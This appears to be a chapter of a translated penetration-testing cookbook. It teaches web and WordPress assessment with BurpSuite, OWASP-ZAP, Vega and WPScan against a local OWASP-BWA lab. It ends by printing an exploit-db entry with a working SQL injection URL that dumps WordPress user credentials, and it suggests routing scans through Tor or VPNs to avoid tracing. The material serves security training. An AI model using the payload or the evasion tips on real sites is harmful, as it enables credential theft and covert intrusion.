# 第九章：Web 和数据库特定配方

在本章中，我们将涵盖以下主题：

+   创建 Web 应用程序的离线副本

+   漏洞扫描

+   启动网站攻击

+   扫描 WordPress

+   破解 WordPress

+   执行 SQL 注入攻击

# 简介

评估 Web 应用程序和数据库的安全性需要一套独特的工具，可以针对它们进行利用。由于网站和数据库的可见性以及它们包含的信息量，这些环境是高度针对性的。这些环境可能是公开访问的站点或内部网络。在 Web 应用程序被攻破的情况下，它很可能会被用作进一步网络渗透的跳板。

# 创建 Web 应用程序的离线副本

您首先应该做的事情之一是创建目标站点的离线副本。这将使您能够分析诸如表单如何提交、应用程序的目录结构以及文件位置等信息。除了站点结构的技术细节外，评论和不活跃的代码也能为您提供其他感兴趣的领域。这些信息可以用来在本章后续部分中设计特定于站点的攻击。通过创建目标站点的离线副本，您还可以限制与站点交互的次数，减少日志中生成记录的数量等。

# 准备工作

为了执行目标站点的离线副本操作，我们将需要以下内容：

+   目标系统的网络访问

+   BurpSuite 免费版（默认安装在 Kali Linux 上）

+   按照配方要求安装的 OWASP-BWA，安装 OWASP-BWA 见第一章，*安装 Kali 和实验室设置*

# 如何操作...

为了创建分析的离线副本，我们将使用以下配方：

1.  从“应用程序 | 03 - Web 应用程序分析”菜单启动 BurpSuite：

 启动 BurpSuite

1.  如果这是首次启动，您将看到一个许可协议——请在点击“我接受”以继续之前阅读此协议。

1.  由于我们使用的是免费版本，我们只能使用临时项目选项，所以点击“下一步”。

1.  出于本次演示的目的，我们将使用 BurpSuite 的默认设置。点击“启动 Burp”继续。

如果您打算将此平台用于除测试服务器以外的其他连接，BurpSuite 的默认值应更改为更合适的值，因为这些默认值已知，可能会触发入侵检测系统。

1.  一旦 BurpSuite 启动，您将看到多个标签：

 BurpSuite 的初始视图

1.  选择主标签“代理”（Proxy），确保显示“拦截关闭”状态，如下所示。如果启用了该功能，点击该链接将切换状态为关闭：

禁用拦截

1.  接下来，应该将你的浏览器配置为使用 BurpSuite 作为其代理。为此，打开 Firefox ESR，导航到 Preferences | Advanced | Network | Connections | Settings 菜单。你将按以下方式配置代理设置：

浏览器代理配置

1.  一旦代理设置完成，使用 Firefox 浏览器导航到你的 OWASP-BWA 实例的 IP 地址。从这里，浏览应用程序的一些选项，以熟悉界面布局。

由于 BurpSuite 作为你的浏览器代理运行，你可能会看到 SSL 证书错误——这是预期中的情况。

1.  返回到 BurpSuite 应用程序，查看 Proxy | HTTP history 选项卡中的条目。找到初始请求到你的 OWASP-BWA 实例，并将其高亮显示。右键单击此条目，并选择添加到范围：

将 OWASP-BWA 添加到目标范围你会在第一列看到不同的数字，因为这是按顺序生成的。按 URL 列排序以找到 `/` 请求。一旦指定为在范围内，BurpSuite 将仅记录此主机的代理历史记录。

1.  要查看范围配置，请导航到 Target | Scope，选择你的 OWASP-BWA 实例的主机条目，然后选择编辑。你可以看到这里有几个不同的选项可以选择，包括使用正则表达式来帮助更容易地选择目标。由于我们的示例是单一主机，我们将不更改此选项，并将目标端口保持为`80`：

OWASP 范围配置

1.  离线副本的生成需要在使用前提供某些信息。导航到 Spider | Options，并查看可用的选项。我们暂时保持默认设置：

BurpSuite 蜘蛛选项

1.  你可以通过访问 Spider | Control 来查看分析进度，在这里你将看到当前状态：



1.  一旦蜘蛛开始收集数据，它可以在 BurpSuite 的 Target | Site map 部分找到。在这里你可以看到通过代理发出的所有请求，目标范围内的主机会以粗体显示：

目标 web 应用程序的站点地图详细信息

1.  现在，你可以查看的不仅是应用程序文档的内容，还包括所有发送到服务器和从服务器接收的请求。通过查看这些内容以及站点地图信息，你可以开始识别需要进一步检查的区域。

你将注意到 BurpSuite 标识出的流量并不属于网站地图中的目标范围。这是因为浏览器生成的所有流量都通过代理，因此被添加到网站地图中。非目标主机被列出但显示为灰色—如果你想将其他主机添加到范围中，可以右键点击相关主机，并选择“添加到范围”。添加后，蜘蛛将把这个主机包含在分析中。

# 还有更多内容...

BurpSuite 蜘蛛抓取的信息非常广泛，所有收集到的数据的详细分析将需要一本书来完成。如需了解如何更详细地利用这些数据，请参考 PortSwigger 网站：[`support.portswigger.net/`](https://support.portswigger.net/)。

# 扫描漏洞

网络应用程序对组织构成特别的风险，因为它们可以通过互联网访问，因此任何人都可以访问。如果仔细考虑，你会发现不可信的外部实体被允许访问组织安全边界内的应用程序和系统，一旦被攻破，它们就成为进一步渗透的优秀跳板。

我们现在将进入方法的下一阶段，使用 OWASP-ZAP 扫描目标系统，查找可能被利用的漏洞。

我们在目标系统的离线副本上进行操作的一个关键原因是，更好地配置工具，以最小化扫描过程产生的噪音。由于行业中对安全的高度关注，许多公司正在实施入侵检测/防御措施，寻找对其系统的攻击签名。如果这些系统被触发，它们可能会完全阻止你访问。使用时请小心。

# 准备工作

为了成功完成这一部分，我们需要以下内容：

+   根据食谱中强调的内容，按照第一章中的*安装 OWASP-BWA*，以及*安装 Kali 和实验室设置*，完成 OWASP-BWA 的安装与配置。

+   在你的 Kali Linux 桌面和 OWASP-BWA 实例之间建立网络连接

# 操作方法...

要使用 OWASP-ZAP 执行目标系统的漏洞扫描，我们将执行以下任务：

1.  从 Kali Linux 应用程序菜单中，导航到应用程序 | 03 - Web 应用分析 | owasp-zip 来启动该应用程序。

1.  一旦提示选择会话持久性类型，选择基于当前时间戳的持久性：

选择会话持久性

1.  在左上角，将扫描模式从安全模式切换到攻击模式：

更改 OWASP-ZAP 脚本模式

1.  完成此操作后，我们将在快速启动标签页中的输入框中输入 OWASP-BWA 设备的 IP 地址，并点击“攻击”。这将启动扫描过程：

 启动 OWASP-ZAP 扫描

1.  要监控扫描进度，在“活动扫描”标签下，点击进度条左侧紧邻的图标：

 启动进度监视器

1.  扫描进展的详细信息以及已完成的组件可以在弹出窗口中看到。您可以将此窗口保持打开状态，并放置在桌面的另一区域以监视进度，因为扫描可能需要一些时间才能完成：

 详细进度

1.  随着扫描的进行，您将看到以下窗格：

 扫描进行中 - OWASP-ZAP

左上：扫描目标站点时创建的站点地图

右上：请求和响应标签显示扫描仪与 Web 服务器之间的通信

左下：打开“警报”标签，您可以看到正在发现的漏洞

右下：显示从左下窗格选择的警报详细信息

1.  为了保存结果为详细报告，稍后可以通过报告菜单中的“生成 HTML 报告”选择并保存至`/root/Chapter9/owasp-zap.html`：

 保存 OWASP-ZAP 扫描结果

1.  保存后，在 Firefox 中打开并查看结果。我们将在后续的教程中使用此报告中的信息：



# 还有更多...

由于来自互联网站点的流量容易被追踪，您可能考虑通过替代连接路径运行扫描。一些例子包括：

+   使用代理链包的 Tor 网络

+   **虚拟私人网络**（**VPN**）

    +   SSH 隧道

    +   第三方 VPN 服务

+   匿名代理

这些选项各自都有其优点和风险，因此在考虑这些选项时，请权衡性能、易用性和结果的准确性。

# 启动网站攻击

如前面部分所述，Web 服务器代表了一种既驻留在内部网络也驻留在外部网络的网络设备，如果成功被攻破，可以作为通往内部网络段的路径。除了作为通向内部网络的跳板，Web 应用程序通常还处理敏感数据，如客户数据、支付信息或医疗记录——这些数据都具有很高的价值。

专注于 Web 应用程序本身，我们将使用 Vega 对安装的应用程序进行更深入的分析，以识别可能的漏洞机会。

我们将专注于 Web 应用程序，特别是因为我们在第三章《*漏洞分析*》和第四章《*在目标中发现漏洞*》中涵盖了平台和守护进程的漏洞。

# 准备就绪

为成功完成本节，我们需要以下内容：

+   在第一章的食谱*安装 OWASP-BWA*中提到的 OWASP-BWA 的安装和配置，*安装 Kali 及实验室设置*。

+   你的 Kali Linux 桌面和 OWASP-BWA 实例之间的网络连接

+   从命令行安装 Vega，如下所示：

```
root@kali:~/Chapter9#apt-get install vega
```

# 如何操作...

在本食谱中，我们将执行以下操作：

1.  从命令行启动 Vega，并将我们的 OWASP-BWA 实例添加为新的扫描对象。当出现选项对话框时，选择所有可用检查并开始扫描。

1.  随着扫描的进行，我们将在 Vega 界面中看到更多生成的警报：

Vega 扫描概览

1.  在左侧列中选择一个警报，将在右侧显示更多详细信息，在此案例中是远程 shell 注入漏洞：

远程 shell 注入漏洞

# 扫描 WordPress

WordPress 是互联网上最流行的**内容管理系统**（**CMS**）之一，由于其流行性和程序员能够创建与 WordPress 集成的自定义组件的能力，它成为一个可能具有吸引力的目标。

由于 WordPress 的流行，已有许多工具设计用于扫描这些漏洞。我们将使用其中一个工具——WPScan。

# 准备工作

为成功完成本节，我们需要以下内容：

+   在第一章的食谱*安装 OWASP-BWA*中提到的 OWASP-BWA 的安装和配置，*安装 Kali 及实验室设置*。

+   你的 Kali Linux 桌面和 OWASP-BWA 实例之间的网络连接

# 如何操作...

执行针对 WordPress 站点进行扫描的以下步骤是必要的：

1.  从命令行运行以下命令，以确保我们已下载并安装了最新的数据库：

```
root@kali:~/Chapter9# wpscan --update
```

1.  完成并更新后，我们现在可以使用 WPScan 开始评估我们目标 WordPress 站点（位于我们的 OWASP-BWA 镜像上）的安全性：

```
root@kali:~/Chapter9# wpscan --url http://192.168.56.100/wordpress/ --enumerate vp,vt --log wpscan.log
```

1.  上述命令在我们的 OWASP-BWA 主机上的 WordPress 实例上运行 WPScan，查找已知的**易受攻击插件**（**vp**）和已知的**易受攻击主题**（**vt**），并将信息保存到`wpscan.log`。

在扫描远程 WordPress 主机时，最好通过不同的用户代理来查看目标系统是否根据此变化返回不同的结果。你可以通过在命令行中加入`-r`开关来指示 WPScan 使用随机用户代理。

1.  现在可以查看生成的日志文件，查看目标系统上存在的漏洞。我们可以通过运行以下命令快速列出漏洞：

```
root@kali:~/Chapter9# cat wpscan.log | grep Title:
[!] Title: Wordpress 1.5.1 - 2.0.2 wp-register.php Multiple Parameter XSS
[!] Title: WordPress 2.0 - 2.7.1 admin.php Module Configuration Security Bypass
[!] Title: WordPress 1.5.1 - 3.5 XMLRPC Pingback API Internal/External Port Scanning
[!] Title: WordPress 1.5.1 - 3.5 XMLRPC pingback additional issues
[!] Title: WordPress 2.0 - 3.0.1 wp-includes/comment.php Bypass Spam Restrictions
[!] Title: WordPress 2.0 - 3.0.1 Multiple Cross-Site Scripting (XSS) in request_filesystem_credentials()
[!] Title: WordPress 2.0 - 3.0.1 Cross-Site Scripting (XSS) in wp-admin/plugins.php
[!] Title: WordPress 2.0 - 3.0.1 wp-includes/capabilities.php Remote Authenticated Administrator Delete Action Bypass
[!] Title: WordPress 2.0 - 3.0 Remote Authenticated Administrator Add Action Bypass
[!] Title: WordPress <= 4.0 - Long Password Denial of Service (DoS)
[!] Title: WordPress <= 4.0 - Server Side Request Forgery (SSRF)
[!] Title: WordPress <= 4.7 - Post via Email Checks mail.example.com by Default
[!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
[!] Title: myGallery <= 1.4b4 - Remote File Inclusion
[!] Title: Spreadsheet <= 0.6 - SQL Injection
```

1.  要获取有关此报告中定位到的漏洞的更多细节，请查看完整的日志文件，因为它包含指向在线资源的 URL，提供更详细的信息。例如，我们的安装存在以下漏洞：

```
[!] Title: Spreadsheet <= 0.6 - SQL Injection
 Reference: https://wpvulndb.com/vulnerabilities/6482
 Reference: https://www.exploit-db.com/exploits/5486/
```

1.  该扫描中的信息将在下一部分中使用，我们将利用这些漏洞控制我们的 WordPress 安装。

# 破解 WordPress

由于 WordPress 漏洞信息已可用，并且有越来越多有用的工具来验证 WordPress 安装的安全性，我们将利用这些信息执行针对 WordPress 安装的攻击，通过已识别的第三方插件中的 SQL 注入漏洞，针对管理员用户进行攻击。

# 准备就绪

为了顺利完成这一部分，我们需要以下内容：

+   按照 第一章 中 *安装 OWASP-BWA* 的配方，安装和配置 OWASP-BWA，*安装 Kali 和实验室设置*

+   在 Kali Linux 桌面和 OWASP-BWA 实例之间的网络连接

+   从 *扫描 WordPress* 部分获得的 WPScan 扫描结果

# 如何做到这一点...

要获得对远程 WordPress 安装的访问权限，我们将执行以下操作：

1.  基于之前使用的 WPScan，我们发现电子表格插件存在 SQL 注入漏洞。不幸的是，在我们的 WPScan 中，我们无法枚举用户，因此我们将利用此漏洞获取该安装的管理员用户信息。

1.  从命令行中，我们将使用 `searchsploit` 工具定位利用此漏洞的方法：

```
root@kali:~/Chapter9# searchsploit WordPress Plugin Spreadsheet 0.6 - SQL Injection
```

1.  这将展示给我们信息，表明在文件 `/usr/share/exploitdb/platforms/php/webapps/5486.txt` 中有可用的漏洞信息。当我们打开该文件时，它包含一个示例 URL，允许我们获取管理员信息：

```
root@kali:~/Chapter9# more /usr/share/exploitdb/platforms/php/webapps/5486.txt
===========================================
There's standart sql-injection in Spreadsheet <= 0.6 Plugin
# Author : 1ten0.0net1
# Script : Wordpress Plugin Spreadsheet <= 0.6 v.
# Download : http://timrohrer.com/blog/?page_id=71
# BUG :  Remote SQL-Injection Vulnerability
# Dork : inurl:/wp-content/plugins/wpSS/
Example:
http://site.com/wp-content/plugins/wpSS/ss_load.php?ss_id=1+and+(1=0)+union+select+1,concat(user_login,0x3a,user_pass,0x3a,user_email),3,4+from+wp_users--&display=plain
===========================================
Vulnerable code:
ss_load.php
 $id = $_GET['ss_id'];
....
ss_functions.php:
function ss_load ($id, $plain=FALSE) {
....
 if ($wpdb->query("SELECT * FROM $table_name WHERE id='$id'") == 0) {
....
==> Visit us @ forum.antichat.ru
